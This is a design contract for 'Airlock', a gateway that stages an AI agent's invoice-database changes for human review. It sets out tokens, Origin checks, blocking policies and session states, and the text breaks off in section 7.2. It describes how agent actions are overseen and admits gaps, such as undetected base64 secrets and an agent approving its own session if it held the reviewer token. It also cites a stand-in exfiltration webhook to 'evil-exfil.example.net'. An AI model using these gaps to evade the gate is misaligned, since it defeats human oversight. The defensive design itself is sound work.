


# Airlock API Contract & Integration Specification (v1.2.1)

**Airlock — The Security Gateway for Autonomous AI Agents**

This is the integration contract for the 36-hour MVP sprint. Backend, Frontend, AI Agent and Testing/Integration implement against it and the machine-readable files in this directory.

- **MUST**, **MUST NOT**, **SHOULD** are normative.
- v1.2.1 applies a targeted security correction to v1.2.0 (restoring mandatory server-side `Origin` allowlist validation on state-changing reviewer/demo endpoints while keeping `TrustedHostMiddleware` and separate bearer credentials intact). Architecture decisions recorded in `../CHANGELOG.md` are final for the MVP.
- This package is a contract only. Nothing in it is an implementation, and no statement here claims that an implementation or test has passed.

| File | Role |
|---|---|
| `API_CONTRACT.md` | This document: behavior, security, lifecycle, protocols, demo, test table |
| `manifest.schema.json` | Session manifest, mutation record, violation, conflict, finalization result, state machine |
| `api.schema.json` | Request/response schemas for every endpoint, typed error `details`, commit-ledger receipt |
| `tools.json` | Agent tool allowlist: argument schemas, result schemas, examples |
| `policies.json` | Deterministic policies, thresholds, allowlists, redaction, precedence |
| `invoice.schema.json` | Canonical invoice structure, SQLite DDL, seed rules |
| `error.schema.json` | Error envelope and the code to HTTP status mapping |
| `examples/*.json` | Complete example manifests (validated against `manifest.schema.json`) |
| `../scripts/validate_contracts.py` | Contract validator (standard library only) |

---

## 1. Architecture & Communication

### Technology Stack & Boundaries
- **Backend Gateway (Member 1)**: Python + FastAPI + SQLite. Three kinds of SQLite files: `airlock_prod.db` (invoices + commit ledger), `airlock_meta.db` (session metadata and manifests), and one speculative `{session_id}.db` per session.
- **Frontend Dashboard (Member 2)**: Next.js + React + TypeScript + Tailwind CSS (polls the REST API every `2000ms`).
- **AI Agent Runner (Member 3)**: Python + NVIDIA Nemotron API. `NVIDIA_API_KEY` stays in the agent process and is never sent to Airlock.
- **Testing & Integration (Member 4)**: contract tests, security tests, 500-row seeder, E2E verification.

### Architecture Communication Diagram



The agent has **no** access path to `airlock_prod.db` or `airlock_meta.db`: it receives no file paths, connection strings or SQL tools, and its process environment MUST NOT contain `AIRLOCK_PROD_DB_PATH`, `AIRLOCK_META_DB_PATH` or the reviewer token.

### Explicit Assumptions
1. **Single-host local demo.** Backend `127.0.0.1:8000`, frontend `localhost:3000`. The backend MUST run as **one process with one worker** because correctness relies on one in-process lock (section 14).
2. **Local-only demo assumption.** The three read endpoints have no authentication. This is acceptable only because the backend listens on loopback of the demo machine. It is not safe on a shared or untrusted network.
3. **Agent and reviewer authorization are separate credentials** (section 3).
4. **Synchronous execution.** `POST /api/tools/execute` runs to completion and returns. No WebSockets, queues, Redis, or background workers.
5. **Webhooks are staged only and are never dispatched** — not at stage time, not at `/complete`, not after commit.
6. **The manifest is the source of truth for what a session changed.** The speculative DB exists only so the agent can read and write a realistic copy. Commit replays manifest mutation records onto production; it never reads rows from, copies, or swaps in a speculative database.
7. **Timestamps** everywhere are UTC ISO 8601 ending in `Z`, second precision (`2026-11-24T12:00:00Z`).

---

## 2. Global Conventions

| Topic | Rule |
|---|---|
| Identifiers | `session_id`, `operation_id`, `mutation_id`, `webhook_id`, `ledger_id`, `request_id` are **UUID v4**, lowercase, hyphenated (pattern in every schema: `^[0-9a-f]{8}-[0-9a-f]{4}-4[0-9a-f]{3}-[89ab][0-9a-f]{3}-[0-9a-f]{12}$`). No prefixes. Invoice IDs (`INV-0001`…`INV-0500`) are business keys, not UUIDs; they appear as `entity_id` / `invoice_id`. |
| `operation_id` | Identifies exactly one `POST /api/tools/execute` call, whatever its outcome. |
| Content type | A request with a body MUST send `Content-Type: application/json`. Body-less POSTs (`complete`, `reset`) send the header with an empty body or `{}`. Otherwise `422 INVALID_ARGUMENTS`. |
| Unknown fields | Request bodies reject unknown fields (`422 INVALID_ARGUMENTS`). |
| Naming | Fields `snake_case`; enum values `UPPER_SNAKE_CASE`. |
| Nullability | Documented response fields are always present; "not applicable" is `null`. |
| Size limits | Request body ≤ 1 MiB; serialized `stage_webhook.payload` ≤ 64 KiB. Violations → `422 INVALID_ARGUMENTS`. |
| Errors | Every non-2xx response, including framework-generated ones, MUST use the envelope in section 9. Install custom FastAPI handlers; never return the default `{"detail": …}` shape. |
| Locking | All mutating endpoints (`create`, `execute`, `complete`, `commit`, `rollback`, `reset`) run under one process-wide lock; `GET` endpoints do not take it. |
| Idempotency | None. Repeating a finalizing call returns `409 SESSION_ALREADY_FINALIZED`. |

---

## 3. Security Model

### 3.1 Operation classes and endpoint summary

| Class | Meaning |
|---|---|
| **agent-only** | Callable by the AI agent runner with the **agent bearer token**. |
| **reviewer-only** | Callable by a human reviewer with the **reviewer bearer token**. The agent token never authorizes these. |
| **local-demo-only** | Destructive demo utility. Additionally restricted to a loopback client with `AIRLOCK_DEMO_MODE=true` (and requires the reviewer bearer token). |
| **local-read** | Read-only dashboard endpoints; no authentication, under the local-only demo assumption. |

| Method | Path | Class | Authentication | Status codes |
|---|---|---|---|---|
| `GET` | `/api/health` | `local-read` | None | `200`, `500` |
| `POST` | `/api/sessions` | `agent-only` | Agent bearer | `201`, `401`, `422`, `500` |
| `GET` | `/api/sessions` | `local-read` | None | `200`, `422`, `500` |
| `GET` | `/api/sessions/{session_id}` | `local-read` | None | `200`, `404`, `422`, `500` |
| `POST` | `/api/tools/execute` | `agent-only` | Agent bearer | `200`, `400`, `401`, `403`, `404`, `409`, `422`, `500` |
| `POST` | `/api/sessions/{session_id}/complete` | `agent-only` | Agent bearer | `200`, `401`, `404`, `409`, `422`, `500` |
| `POST` | `/api/sessions/{session_id}/commit` | `reviewer-only` | Reviewer bearer + Origin allowlist | `200`, `401`, `403`, `404`, `409`, `422`, `500` |
| `POST` | `/api/sessions/{session_id}/rollback` | `reviewer-only` | Reviewer bearer + Origin allowlist | `200`, `401`, `403`, `404`, `409`, `422`, `500` |
| `POST` | `/api/demo/reset` | `local-demo-only` | Reviewer bearer + Origin allowlist + demo guards | `200`, `401`, `403`, `422`, `500` |

### 3.2 Two separate bearer credentials
- Agent endpoints require `Authorization: Bearer <AIRLOCK_AGENT_TOKEN>`; reviewer endpoints require `Authorization: Bearer <AIRLOCK_REVIEWER_TOKEN>`. Scheme match is case-insensitive; exactly one token.
- Tokens are compared with a constant-time function (`hmac.compare_digest`).
- **The agent token never authorizes any reviewer-only or local-demo-only action** (approval, commit, rollback, reset). Presenting it there is `401 UNAUTHORIZED_REVIEWER`. Symmetrically, the reviewer token on an agent endpoint is `401 UNAUTHORIZED_AGENT`. The two error messages do not reveal which token was recognized.
- Authentication is checked before body parsing and before session lookup, so unauthenticated callers learn nothing about sessions.
- Startup MUST fail if either token is empty or if the two tokens are identical. It SHOULD log a warning if a token still has the `change-me` placeholder prefix.
- Neither token may appear in any response, manifest, error `details`, metadata row, or log line. `Authorization` headers MUST NOT be logged.
- One shared token per role is sufficient for the MVP: no users, roles beyond these two, JWTs or rotation.
- The `reviewer` body field of `commit`/`rollback` is a **self-asserted audit label**, not an identity.

### 3.3 Reviewer credential in the dashboard
No backend secret may be exposed to the frontend. The reviewer token is therefore **not** an environment value of the Next.js app and is never bundled. The dashboard asks the human reviewer to type it into a password field, keeps it **in page memory only** (not `localStorage`, `sessionStorage`, cookies, or URLs), and sends it as `Authorization: Bearer` on `commit`, `rollback` and `reset` calls. A page reload requires re-entry. (A Next.js server route that attaches the token is an acceptable alternative; it is not required for the MVP.)

### 3.4 Local-only demo assumption
- The backend MUST bind to `127.0.0.1` by default (`AIRLOCK_HOST=127.0.0.1`).
- The read endpoints (`GET /api/health`, `GET /api/sessions`, `GET /api/sessions/{session_id}`) are unauthenticated. They return redacted manifests only.
- Add `TrustedHostMiddleware` allowing only `localhost`, `127.0.0.1`, `[::1]` as defence against DNS rebinding. Its plain-text 400 is the single permitted non-envelope response.
- **Known and accepted demo risk:** the agent runner shares the machine with the backend and could read unauthenticated endpoints or, if it were given the reviewer token, approve its own session. Mitigation for the demo is process separation: the agent is started with only the agent variables (see `.env.example`). OS-level isolation (separate users, containers) is out of MVP scope.
- **Out of scope for the MVP:** TLS, per-user reviewer accounts, rate limiting, audit-log tamper resistance.

### 3.5 CORS and Server-Side `Origin` Allowlist

- **CORS is not authentication and not an access-control or security mechanism.** `CORSMiddleware` only instructs browsers which web origins may read responses; it provides no protection against `curl`, scripts, or other local processes. Configure `CORSMiddleware` with `allow_origins` parsed from `CORS_ORIGINS`, `allow_methods=["GET","POST","OPTIONS"]`, `allow_headers=["Authorization","Content-Type"]`, and `allow_credentials=False`.
- **Exact `CORS_ORIGINS` allowlist:** At startup, parse `CORS_ORIGINS` (comma-separated, default `http://localhost:3000,http://127.0.0.1:3000`) into an exact allowlist of normalized `scheme://host[:port]` strings (whitespace trimmed, trailing slashes stripped). Startup MUST fail if `CORS_ORIGINS` is empty or contains `*` (no wildcards or suffix matching).
- **Server-side `Origin` validation on state-changing reviewer/demo endpoints:** In addition to `TrustedHostMiddleware` (3.4) and `Authorization: Bearer <AIRLOCK_REVIEWER_TOKEN>` (3.2), the backend MUST validate the `Origin` request header against the exact `CORS_ORIGINS` allowlist on:
  1. `POST /api/sessions/{session_id}/commit`
  2. `POST /api/sessions/{session_id}/rollback`
  3. `POST /api/demo/reset`
- **Reject before action & consistent error behavior:** If `Origin` is missing, empty, `"null"`, malformed, or not an exact member of `CORS_ORIGINS`, the backend MUST immediately reject the request with HTTP `403` and `error.code = "FORBIDDEN"` (`error.schema.json` envelope, `details: {}`) **before** verifying bearer tokens, parsing the request body, acquiring the process lock, looking up sessions, or performing any action.
- **No proxy or `Host` header trust:** `X-Forwarded-For`, `X-Forwarded-Host`, `X-Forwarded-Proto`, and `Forwarded` MUST be ignored. Allowed origins MUST NEVER be derived dynamically from the incoming `Host` header; `TrustedHostMiddleware` continues to enforce `Host` ∈ `{"localhost", "127.0.0.1", "[::1]"}`.
- **Non-browser local testing clients:** Because `Origin` is mandatory on `commit`, `rollback`, and `reset`, non-browser clients (`curl`, `pytest`, `httpx`, local test harnesses) MUST explicitly send an allowlisted `Origin` header (for example `Origin: http://localhost:3000`) alongside `Authorization: Bearer <AIRLOCK_REVIEWER_TOKEN>` and `Content-Type: application/json`. Agent-only endpoints and `local-read` `GET` endpoints do not enforce the server-side `Origin` allowlist.
- **Credential separation preserved:** Supplying an allowed `Origin` never substitutes for `AIRLOCK_REVIEWER_TOKEN`, and presenting `AIRLOCK_AGENT_TOKEN` with a valid `Origin` still returns `401 UNAUTHORIZED_REVIEWER`.

### 3.6 Demo reset guards
1. Enabled only when `AIRLOCK_DEMO_MODE=true`; otherwise `403 FORBIDDEN`.
2. The backend MUST refuse to start with `AIRLOCK_DEMO_MODE=true` when `AIRLOCK_HOST` is not a loopback address.
3. The client address (`request.client.host`) MUST be `127.0.0.1` or `::1`; otherwise `403 FORBIDDEN`. `X-Forwarded-For` is ignored.
4. The `Origin` header MUST be present and an exact match in `CORS_ORIGINS` (3.5); otherwise `403 FORBIDDEN`.
5. The reviewer bearer token is required (`401 UNAUTHORIZED_REVIEWER`).
Guards 1, 3, and 4 are evaluated before authentication.

### 3.7 Secret detection and redaction
- **Detect and block (webhooks).** `stage_webhook` is scanned by `POL-003` against `policies.json → secret_markers`: every string value **and object key** of `url`, `event_type` and `payload`, recursively, case-sensitive substring match; `url` is additionally scanned percent-decoded. A hit is a tool-level `BLOCK` that also sets the session gate to `BLOCK`.
- **Redact everywhere else.** Any string value containing a marker is replaced by `"[REDACTED]"`; any object key containing a marker by `"[REDACTED_KEY]"`. Redaction is applied **at ingestion, before anything is stored, logged or returned** to: tool `arguments`, webhook `payload`, `agent_name`, `task_description`, `agent_summary`, `reviewer`, `reason`, policy `explanation`s, error `message`/`details`, and manifests. Consequently manifests, the metadata database, logs and API responses never contain a marker. The raw request body is never logged.
- **Invoice rows are never redacted** (mutation `before`/`after` are replayed verbatim at commit). Therefore `update_invoice` rejects a `notes` value containing a marker (`422 INVALID_ARGUMENTS`, `details.reason = "SECRET_IN_ARGUMENT"`), and the seed MUST NOT contain markers.
- Known limitation: obfuscated secrets (base64, split strings) are not detected.

### 3.8 Untrusted text in the dashboard
`agent_name`, `task_description`, `agent_summary`, `reason`, invoice fields and webhook payloads are agent- or user-controlled. The frontend MUST render them as plain text (React escaping; no `dangerouslySetInnerHTML`, no Markdown/HTML rendering).

---

## 4. Storage Model

### 4.1 Production database `airlock_prod.db`
Contains the `invoices` table and the commit ledger. Only the commit protocol (section 8.1) and demo reset write to it. Reads (health, session creation, reconciliation) use read-only connections (`file:…?mode=ro`).

```sql
CREATE TABLE invoices (
  id TEXT PRIMARY KEY CHECK (id GLOB 'INV-[0-9][0-9][0-9][0-9]'),
  customer_name TEXT NOT NULL,
  customer_email TEXT NOT NULL,
  amount_cents INTEGER NOT NULL CHECK (amount_cents >= 1),
  currency TEXT NOT NULL DEFAULT 'USD',
  status TEXT NOT NULL CHECK (status IN ('OVERDUE','PAID','PENDING','CANCELLED')),
  due_date TEXT NOT NULL,
  notes TEXT,
  version INTEGER NOT NULL CHECK (version >= 1),
  created_at TEXT NOT NULL,
  updated_at TEXT NOT NULL
);
```

The columns are exactly the properties of `invoice.schema.json`; there are no other invoice fields anywhere in the API.

```sql
CREATE TABLE airlock_commit_ledger (
  ledger_id TEXT PRIMARY KEY,
  session_id TEXT NOT NULL UNIQUE,
  committed_at TEXT NOT NULL,
  reviewer TEXT NOT NULL,
  reason TEXT,
  gate_decision TEXT NOT NULL CHECK (gate_decision IN ('ALLOW','REQUIRE_APPROVAL')),
  baseline_record_count INTEGER NOT NULL,
  inserted_count INTEGER NOT NULL,
  updated_count INTEGER NOT NULL,
  deleted_count INTEGER NOT NULL,
  mutation_digest TEXT NOT NULL CHECK (length(mutation_digest) = 64)
);
```

One ledger row is a **durable commit receipt**. Its shape is `api.schema.json#/$defs/CommitLedgerReceipt`. Rules:
- `UNIQUE(session_id)`: a session can be committed at most once, even across restarts.
- The row is inserted in the **same SQLite transaction** as the production mutations (section 8.1), so either both exist or neither does.
- `mutation_digest` is the SHA-256 (lowercase hex) of the UTF-8 bytes of the canonical JSON of the list of applied mutation records, each reduced to `{"entity_id","mutation_type","baseline_version","before","after"}`, sorted by `entity_id` ascending, serialized with sorted keys, separators `,` and `:`, no whitespace, no ASCII escaping.
- The agent can neither read nor write the ledger.

<!-- schema: api.schema.json#/$defs/CommitLedgerReceipt -->
```json
{
  "ledger_id": "1f4a7c9e-3d2b-4e86-a5c1-9b0d7e3f2a64",
  "session_id": "b7d4e2c9-1a3f-4b68-8e52-6f9c0d7a3b21",
  "committed_at": "2026-11-24T12:11:30Z",
  "reviewer": "alice@airlock.local",
  "reason": "Verified wire transfer for INV-0042.",
  "gate_decision": "ALLOW",
  "baseline_record_count": 500,
  "inserted_count": 0,
  "updated_count": 1,
  "deleted_count": 0,
  "mutation_digest": "5245d8f544fccc89e9d4c1b20a10df6c3e6fc6cd484ecc7632f882814304d786"
}
```

(The sample is the receipt for the safe demo session, section 12 Part B; its digest is the digest of that session's single mutation record.)

### 4.2 Metadata database `airlock_meta.db`
Holds session metadata and manifests, **separate from every speculative invoice database**. The manifest (secret-redacted) is stored whole; a few denormalized columns support list filtering and are updated in the same transaction as `manifest_json`.

```sql
CREATE TABLE sessions (
  session_id TEXT PRIMARY KEY,
  agent_name TEXT NOT NULL,
  execution_status TEXT NOT NULL CHECK (execution_status IN ('ACTIVE','COMPLETED','COMMITTED','ROLLED_BACK')),
  gate_decision TEXT NOT NULL CHECK (gate_decision IN ('PENDING','ALLOW','REQUIRE_APPROVAL','BLOCK')),
  human_review_status TEXT NOT NULL CHECK (human_review_status IN ('PENDING','APPROVED','REJECTED')),
  created_at TEXT NOT NULL,
  updated_at TEXT NOT NULL,
  manifest_json TEXT NOT NULL
);
CREATE INDEX idx_sessions_created_at ON sessions (created_at DESC);
```

Deleting a speculative database (rollback, commit cleanup) never deletes the `sessions` row or manifest, so rejected sessions remain auditable.

### 4.3 Speculative databases
`{AIRLOCK_SPECULATIVE_DIR}/{session_id}.db`, an `invoices`-only copy of production made at session creation with SQLite's online backup API from a consistent read snapshot. Tools read and write only this file. It is disposable: if it and the manifest ever disagree, the manifest wins.

---

## 5. Policy Evaluation

### 5.1 Decisions and precedence
Three decisions exist: `ALLOW`, `REQUIRE_APPROVAL`, `BLOCK`. Precedence is exactly:

**`BLOCK` > `REQUIRE_APPROVAL` > `ALLOW`**

- `BLOCK` always prevents commit. Nothing — approval, request fields, later tool calls — overrides it.
- `REQUIRE_APPROVAL` requires an explicit human `POST …/commit`.
- `ALLOW` means no policy objected. It **never commits automatically**: every commit needs an explicit reviewer call.
- **Unknown tools receive a tool-level `BLOCK`** (`POL-005`); the call is not executed. **Invalid arguments are rejected** (`422`) and never executed.
- **AI-generated text cannot influence a decision.** Policy inputs are only the validated tool name, validated arguments, the recorded mutation set, `baseline_record_count`, and `policies.json`. `agent_summary`, `task_description`, `reason` and any free text are never evaluated as instructions; no model is consulted. Arguments asserting approval are rejected by schema (`additionalProperties: false`).
- Evaluation is deterministic.

### 5.2 Tool-level vs session-level decisions

| | Tool-level decision | Session-level decision |
|---|---|---|
| Field | `tool_decision` (every `execute` outcome and history entry) | `gate_decision` (manifest, list) |
| Scope | One `operation_id` | The whole session |
| Values | `ALLOW`, `REQUIRE_APPROVAL`, `BLOCK` | `PENDING`, `ALLOW`, `REQUIRE_APPROVAL`, `BLOCK` |
| Policies | `evaluation_stage: TOOL_EXECUTE`: `POL-003`, `POL-004`, `POL-005` | `SESSION_COMPLETE` policies (`POL-001`, `POL-002`) at `/complete`, plus tool-stage violations whose `effect_scope` is `SESSION` |
| `ALLOW` means | Executed against the speculative DB; no tool-stage policy objected. **Not** approval to commit. | No policy objected to the session. A human must still commit. |

`execute` responses and errors also carry `session_gate_decision`. A blocked tool call **never** returns HTTP 200 and is **never** recorded as `SUCCESS`.

Each recorded violation has an `effect_scope`:
- `SESSION` — participates in `gate_decision` (`POL-001`, `POL-002`, `POL-003`, `POL-004`).
- `TOOL` — affects only the evaluated call (`POL-005`). **An unknown tool name does not by itself block the session**; it stays visible as a violation and raises `risk_summary.overall_risk_level`.

### 5.3 Policies (values live in `policies.json`)

| Policy | Stage | Decision | Scope | Rule |
|---|---|---|---|---|
| `POL-001` Bulk Deletion | `SESSION_COMPLETE` | `REQUIRE_APPROVAL` | `SESSION` | `deleted_count * 100 > 80 * baseline_record_count` (strictly greater). `deleted_count` = number of net `DELETE` mutations. |
| `POL-002` Mass Update | `SESSION_COMPLETE` | `REQUIRE_APPROVAL` | `SESSION` | `updated_count * 100 > 25 * baseline_record_count` over net `UPDATE` mutations. |
| `POL-003` Secret in webhook | `TOOL_EXECUTE` | `BLOCK` | `SESSION` | Secret marker found in `stage_webhook` `url`/`event_type`/`payload` (section 3.7). |
| `POL-004` Webhook destination | `TOOL_EXECUTE` | `BLOCK` | `SESSION` | Parsed hostname (lower-case) must **exactly equal** an `allowed_webhook_domains` entry. No wildcard or subdomain matching; userinfo is irrelevant. |
| `POL-005` Unknown tool | `TOOL_EXECUTE` | `BLOCK` | `TOOL` | `tool_name` not in `tools.json`. |

**Threshold arithmetic** uses integers only: `affected_count * 100 > threshold_percent * baseline_record_count`, with whole-number `threshold_percent`. A baseline of 0 never triggers. With a baseline of 500:

| Deleted (net) | Deleted % | `POL-001` (80%, strictly greater) |
|---|---|---|
| 400 | 80% | **does not trigger** (`40000 > 40000` is false) |
| 401 | 80.2% | **triggers** (`40100 > 40000`) |
| 420 | 84% | **triggers** (`42000 > 40000`) → `REQUIRE_APPROVAL` |

`POL-002` at 25%: 125 of 500 does not trigger; 126 does. `POL-001` and `POL-002` are **independent per-operation controls, not a severity ordering**; `POL-002` is deliberately kept at 25% (rationale in `policies.json`) and is not aligned with the 80% deletion requirement.

Other rules: evaluate **all** applicable policies for a call and record **one violation per triggered policy** (a webhook to `evil-exfil.example.net` carrying a secret triggers both `POL-003` and `POL-004`). The thresholds are read from `policies.json`, never hard-coded. `affected_percentage` (display only) = net inserted+updated+deleted ÷ baseline × 100, rounded to 2 decimals, capped at 100; policy checks never use it.

### 5.4 Gate computation

```
gate_decision (BLOCK is sticky for the session):
  if any recorded violation has decision BLOCK and effect_scope SESSION   -> BLOCK
  elif execution_status == ACTIVE                                         -> PENDING
  elif any recorded violation has decision REQUIRE_APPROVAL (SESSION)     -> REQUIRE_APPROVAL
  else                                                                    -> ALLOW
```

- A `BLOCK` set while `ACTIVE` is permanent; `/complete` can only add violations.
- Per-mutation `policy_decision` is `PENDING` until `/complete`; then `REQUIRE_APPROVAL` if a triggered ratio policy covers the entity's net mutation type, otherwise `ALLOW`. Blocked tool calls create no mutations.

### 5.5 Lockout after a session-level `BLOCK`
Once `gate_decision` is `BLOCK` and the session is still `ACTIVE`:
- **Mutating tools** (`read_only: false` in `tools.json`, including `stage_webhook`) are **rejected**: `403 POLICY_BLOCK` with `details.reason = "SESSION_BLOCKED"`, history entry `BLOCKED`, no mutation, no new violation.
- **Safe inspection** (`list_invoices`, `get_invoice`), `POST …/complete` and `POST …/rollback` remain available.
- `POST …/commit` is always rejected (`403 POLICY_BLOCK`).

### 5.6 Scenario matrix

| Scenario | Violations | Final `gate_decision` | Commit |
|---|---|---|---|
| Update 1 invoice, stage allowlisted webhook | none | `ALLOW` | Only after reviewer call |
| Delete 420 of 500, nothing else | `POL-001` | `REQUIRE_APPROVAL` | Only after reviewer call |
| Delete 400 of 500 | none | `ALLOW` | Only after reviewer call |
| Delete 401 of 500 | `POL-001` | `REQUIRE_APPROVAL` | Only after reviewer call |
| Webhook containing `sk_live_DEMO_REDACTED` | `POL-003` (+`POL-004` if host not allowlisted) | `BLOCK` | `403 POLICY_BLOCK` |
| Delete 420 **and** blocked webhook (demo) | `POL-003`, `POL-004`, `POL-001` | `BLOCK` | `403 POLICY_BLOCK`; only rollback possible |
| Unknown `tool_name` only | `POL-005` (scope `TOOL`) | unchanged (`PENDING` → `ALLOW` at complete if nothing else) | Only after reviewer call |
| Invalid arguments | none (`422`) | unchanged | n/a |

---

## 6. Session Lifecycle & State Machine

Three orthogonal fields exist on every session and manifest:

1. **`execution_status`**: `ACTIVE`, `COMPLETED`, `COMMITTED`, `ROLLED_BACK`
   - `ACTIVE`: speculative DB exists; the agent may execute tools.
   - `COMPLETED`: the agent called `/complete`; session policies ran; **no further tool calls**.
   - `COMMITTED`: mutations and the ledger receipt were committed to production. **Terminal.**
   - `ROLLED_BACK`: speculative state discarded; production untouched. **Terminal.**
2. **`gate_decision`** (session-level): `PENDING`, `ALLOW`, `REQUIRE_APPROVAL`, `BLOCK` (section 5.4).
3. **`human_review_status`**: `PENDING`, `APPROVED`, `REJECTED`. `APPROVED` only after a **successful** commit (or recovery of one); a failed commit leaves it `PENDING`. `REJECTED` only via rollback.



(`COMPLETED → COMMITTED` also occurs through commit-ledger reconciliation, section 8.2.)

| `execution_status` | `gate_decision` | Action | Result |
|---|---|---|---|
| `ACTIVE` | `PENDING` | `execute` | Allowed. Unknown tool → `400 INVALID_TOOL` (tool-level `BLOCK`, gate unchanged). Blocking webhook → `403 POLICY_BLOCK` and gate becomes `BLOCK`. Bad args → `422`. |
| `ACTIVE` | `BLOCK` | `execute` (mutating tool) | **Rejected** `403 POLICY_BLOCK` (`SESSION_BLOCKED`) |
| `ACTIVE` | `BLOCK` | `execute` (read-only tool) | Allowed |
| `ACTIVE` | `PENDING` / `BLOCK` | `complete` | → `COMPLETED`, final `gate_decision` |
| `ACTIVE` | `PENDING` / `BLOCK` | `commit` | **Rejected** `409 INVALID_SESSION_STATE` |
| `ACTIVE` | `PENDING` / `BLOCK` | `rollback` | → `ROLLED_BACK`, review `REJECTED` |
| `COMPLETED` | `ALLOW` / `REQUIRE_APPROVAL` | `commit` | → `COMMITTED` on success; `409 COMMIT_CONFLICT` or `500 DATABASE_FAILURE` leave `COMPLETED`, production unchanged |
| `COMPLETED` | `BLOCK` | `commit` | **Rejected** `403 POLICY_BLOCK` |
| `COMPLETED` | any | `rollback` | → `ROLLED_BACK`, review `REJECTED` (unless a ledger receipt exists: `409 SESSION_ALREADY_FINALIZED`) |
| `COMPLETED` | any | `execute` | **Rejected** `409 INVALID_SESSION_STATE` |
| `COMPLETED` | any | `complete` | **Rejected** `409 INVALID_SESSION_STATE` |
| `COMMITTED` / `ROLLED_BACK` | any | `execute`, `complete`, `commit`, `rollback` | **Rejected** `409 SESSION_ALREADY_FINALIZED` |

### Invariants
1. No tool executes after `COMPLETED` or any terminal state.
2. Finalized sessions are never reused.
3. `gate_decision == BLOCK` ⇒ commit is impossible; rollback always works until finalized.
4. A tool call that returned non-2xx was **not executed** (no invoice change, no `STAGED` webhook).
5. A failed commit changes **nothing** in production; it may only record a `FAILED` `finalization_result`.
6. `finalized_at` is non-null only for `COMMITTED` and `ROLLED_BACK`.
7. A session with a production ledger receipt is `COMMITTED` (possibly after reconciliation) and can never be rolled back or committed again.

---

## 7. Mutation Tracking & Manifest Derivation

### 7.1 Mutation record
`manifest.mutations` is grouped `{ "inserted": [], "updated": [], "deleted": [] }`. **Every item in every group has the same shape** (`manifest.schema.json#/$defs/Mutation`):

| Field | Type | Description |
|---|---|---|
| `mutation_id` | UUID | Unique per record. |
| `operation_id` | UUID | Most recent `execute` call that changed this entity; links to `tool_execution_history[].operation_id`. |
| `tool_name` | string | Tool of that operation. |
| `entity_type` | string | Always `"invoice"`. |
| `entity_id` | string | Invoice ID, e.g. `INV-0042`. |
| `mutation_type` | enum | `INSERT`, `UPDATE`, `DELETE` (matches the group). |
| `before` | invoice or null | Full canonical invoice row at baseline; `null` for `INSERT`. |
| `after` | invoice or null | Full canonical invoice row as left by the session; `null` for `DELETE`. |
| `changed_fields` | string[] | For `UPDATE`: fields whose value differs, excluding `version` and `updated_at`; ≥ 1 entry. `[]` otherwise. |
| `baseline_version` | integer or null | Production `version` at clone time; `null` for `INSERT`; constant for the record's life. |
| `timestamp` | timestamp | When the latest operation changed the entity. |
| `policy_decision` | enum | `PENDING` until `/complete`, then `ALLOW` or `REQUIRE_APPROVAL`. |

<!-- schema: manifest.schema.json#/$defs/Mutation -->
```json
{
  "mutation_id": "7c900913-5b02-45f3-a065-ae18dd63b6e8",
  "operation_id": "9a1c5e7d-2b4f-4d86-a3c1-7e0f5b2d9c48",
  "tool_name": "bulk_delete_invoices",
  "entity_type": "invoice",
  "entity_id": "INV-0001",
  "mutation_type": "DELETE",
  "before": {
    "id": "INV-0001",
    "customer_name": "Northwind Logistics",
    "customer_email": "ap@northwind.example.com",
    "amount_cents": 145000,
    "currency": "USD",
    "status": "OVERDUE",
    "due_date": "2026-10-15",
    "notes": "Net 30",
    "version": 1,
    "created_at": "2026-09-15T10:00:00Z",
    "updated_at": "2026-09-15T10:00:00Z"
  },
  "after": null,
  "changed_fields": [],
  "baseline_version": 1,
  "timestamp": "2026-11-24T12:01:30Z",
  "policy_decision": "REQUIRE_APPROVAL"
}
```

### 7.2 One net record per entity
The manifest holds **one record per affected invoice** (the net effect versus baseline), so counts, thresholds and commit validation never double-count. Per-call history is in `tool_execution_history`. Merge a new operation into any existing record:

| Existing record | New operation | Result |
|---|---|---|
